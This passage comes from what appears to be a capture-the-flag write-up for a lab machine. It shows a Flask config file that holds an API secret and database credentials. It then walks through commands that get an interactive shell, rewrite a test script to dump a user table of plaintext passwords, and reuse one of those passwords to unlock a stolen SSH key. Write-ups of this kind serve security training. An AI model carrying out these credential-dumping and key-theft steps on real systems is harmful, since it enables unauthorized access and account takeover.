     # Flask-Restplus settings
    RESTPLUS_SWAGGER_UI_DOC_EXPANSION = 'list'
    RESTPLUS_VALIDATE = True
    RESTPLUS_MASK_SWAGGER = False
    RESTPLUS_ERROR_404_HELP = False
    CRAFT_API_SECRET = 'hz66OCkDtv8G6D'

    # database
    MYSQL_DATABASE_USER = 'craft'
    MYSQL_DATABASE_PASSWORD = 'qLGockJ6G2J75O'
    MYSQL_DATABASE_DB = 'craft'
    MYSQL_DATABASE_HOST = 'db'
    SQLALCHEMY_TRACK_MODIFICATIONS = False

In order to have a "better" shell we can use `/bin/sh -i`

There is a `dbtest.py` script that allow us to test the connection to the
database. We cat that script in a new one in order to change the SQL line to
list the `users`'s table. At first I tried with a `from users`. As there was no
result I tried with the following:

    :::text
    /opt/app # head -n 15 dbtest.py > dbtest2.py
    /opt/app # echo '        sql = "SELECT * from user"' >>dbtest2.py
    /opt/app # echo '        sql = "SELECT * from user"' >>dbtest2.py
    /opt/app # tail -n 6 dbtest.py >> dbtest2.py
    /opt/app # python dbtest2.py
    {'id': 1, 'username': 'dinesh', 'password': '4aUh0A8PbVJxgd'}

We get only one user because the `dbtest.py` script use the `cursor.fetchone()` function.
The `pymysql` [documentation]( https://pymysql.readthedocs.io/en/latest/modules/cursors.html)
indicate that we want to use the `cursor.fetchall()` function. We modify our
"script":

    :::text
    /opt/app # head -n 15 dbtest.py > dbtest2.py
    /opt/app # echo '        sql = "SELECT * from user"' >>dbtest2.py
    /opt/app # echo '        cursor.execute(sql)'>>dbtest2.py
    /opt/app # echo '        result = cursor.fetchall()'>>dbtest2.py
    /opt/app # tail -n 4 dbtest.py >>dbtest2.py
    /opt/app # python dbtest2.py
    [{'id': 1, 'username': 'dinesh', 'password': '4aUh0A8PbVJxgd'}, {'id': 4, 'username': 'ebachman', 'password': 'llJ77D8QFkLPQB'}, {'id': 5, 'username': 'gilfoyle', 'password': 'ZEU3N8WNM2rh4T'}]

We can then connect to the GOGS with the `gilfoyle` credentials.

This user has a private repository containing sensitive information as his private
SSH key. The key is protected by a passphrase. That passhrase is his password!
We need to copy his private and public key in our `.ssh` folder. We also need to
change the private key permission (`chmod 600`). We can then SSH to the machine
and get the user flag:
